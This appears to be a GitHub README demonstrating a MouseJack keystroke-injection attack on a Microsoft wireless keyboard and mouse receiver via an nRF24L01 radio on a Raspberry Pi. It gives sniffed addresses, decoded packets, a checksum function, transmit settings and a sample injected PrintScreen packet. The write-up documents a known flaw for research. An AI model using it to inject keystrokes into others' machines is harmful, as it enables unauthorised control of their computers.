 # mousejack_for_microsoft
Mousejack. Example of the attack for a microsoft keyboard. 
Tested for ID **045e:0745** Microsoft Corp. Nano Transceiver v1.0 for Bluetooth

Chip is nRF24L01 compatible.<br>
Code is simple, on Python.<br>
For raspberry with nRF24L01.<br>

I catch transmitting on channel 70 (not only this one)<br>
There are two address pairs. `[0xa97cd6796d, 0x5f359e5b53, 0xa97cd679cd, 0x5f359e7350]`<br>
One pair for a mouse:         `0xa97cd679cd, 0x5f359e7350`<br>
Another pair for a keyboard:  `0xa97cd6796d, 0x5f359e5b53`<br>
On mouse address you can sniff mouse traffic.<br>
I got this:<br>
`4c044801781bcc200000787ffbff80000000003e` It was a move up-left with speeds `787f` and `fbff`.<br>
Sample packets:<br>
```
'a97cd6796d 4c04480178 484020000000007fff800000000062'.replace(' ',''),
'a97cd6796d 4c04480178 2007a00000000000007fff8000004d'.replace(' ',''),
'a97cd6796d 4c04480178 4e402000007f7f8080000000000064'.replace(' ',''),

'a97cd6796d 4d04480178 1e87a00000000000007fff80000073'.replace(' ',''),
'a97cd6796d 4d04480178 4ec020000000800080000000000064'.replace(' ',''),

'a97cd6796d 4e04480178 1f07a00000000000007fff80000072'.replace(' ',''),
```

Lats look at `'a97cd6796d 4e04480178 484020000000007fff800000000062'` <br>
`a97cd6796d` - address of the pipe <br>
`4c04480178` - some ID <br>
`484020000000007fff800000000062` - payload. First 2 bytes - some sequence.
The last one byte - checsum of the payload
```
def checksum(p, ck_offset = 0):
    csum = 0
    for i in range(len(p)):
        csum = csum ^ p[i]
    return csum ^ ck_offset
```
Checksum calculated from payload: `484020000000007fff8000000000` - it is `62`. This checksum is additional to
checksum of the nRF packet.<br>
To transmitting i use this configuration:<br>
```
================ SPI Configuration ================
CSN Pin  	 = CE0 (PI Hardware Driven)`
CE Pin  	 = Custom GPIO25
Clock Speed	 = 8 Mhz
================ NRF Configuration ================
STATUS		 = 0x0e RX_DR=0 TX_DS=0 MAX_RT=0 RX_P_NO=7 TX_FULL=0
RX_ADDR_P0-1	 = 0xa97cd6796d 0xc2c2c2c2c2
RX_ADDR_P2-5	 = 0xc3 0xc4 0xc5 0xc6
TX_ADDR		 = 0xa97cd6796d
RX_PW_P0-6	 = 0x14 0x00 0x00 0x00 0x00 0x00
EN_AA		 = 0x00
EN_RXADDR	 = 0x03
RF_CH		 = 0x46
RF_SETUP	 = 0x0f
CONFIG		 = 0x0e
DYNPD/FEATURE	 = 0x00 0x00
Data Rate	 = 2MBPS
Model		 = nRF24L01+
CRC Length	 = 16 bits
PA Power	 = PA_MAX
```

**Do not forget!** For attack we use **mouse** address as a target. And send a notcrypted keyboard packet to it.<br>
In sample i send this:
`a97cd6796d 4c04480178 1b0020000023000000000000000052`

`2300` - it's a [Keyboard PrintScreen](http://www.freebsddiary.org/APC/usb_hid_usages.php)<br>
It's a usb hid data. Why **23** and not **46**?
Couse:<br>
`0x2300` - `0010001100000000` if we skip first bit we got `0100011000000000` - `0x4600` (0x46	Keyboard PrintScreen)
